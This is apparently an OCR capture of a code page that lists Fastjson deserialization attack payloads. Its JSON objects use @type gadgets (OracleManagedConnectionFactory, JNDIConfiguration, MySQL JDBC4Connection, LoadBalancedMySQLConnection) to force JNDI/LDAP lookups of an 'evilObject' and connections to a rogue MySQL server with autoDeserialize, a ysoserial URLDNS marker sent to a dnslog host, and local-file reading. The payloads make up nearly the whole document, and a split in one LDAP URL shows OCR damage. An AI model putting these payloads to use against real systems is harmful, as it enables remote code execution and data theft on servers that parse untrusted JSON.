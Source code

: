 ```java
{
	"@type": "oracle.jdbc.connector.OracleManagedConnectionFactory",
	"xaDataSourceName": "ld
ap://127.0.0.1:8888/evilObject"
}
```

 - JNDIConfiguration

```java
{
	"@type": "org.apache.commons.configuration.JNDIConfiguration",
	"prefix": "ldap://127.0.0.1:8888/evilObject"
}
```

 - JDBC4Connection

```java
{
	"@type": "java.lang.AutoCloseable",
	"@type": "com.mysql.jdbc.JDBC4Connection",
	"hostToConnectTo": "172.20.64.40",
	"portToConnectTo": 3306,
	"url": "jdbc:mysql://172.20.64.40:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
	"databaseToConnectTo": "test",
	"info": {
		"@type": "java.util.Properties",
		"PORT": "3306",
		"statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
		"autoDeserialize": "true",
		"user": "yso_URLDNS_http://ahfladhjfd.6fehoy.dnslog.cn",
		"PORT.1": "3306",
		"HOST.1": "172.20.64.40",
		"NUM_HOSTS": "1",
		"HOST": "172.20.64.40",
		"DBNAME": "test"
	}
}
```

 - LoadBalancedMySQLConnection

```java
{
	"@type": "java.lang.AutoCloseable",
	"@type": "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection",
	"proxy": {
		"connectionString": {
			"url": "jdbc:mysql://localhost:3306/foo?allowLoadLocalInfile=true"
		}
	}
}
```
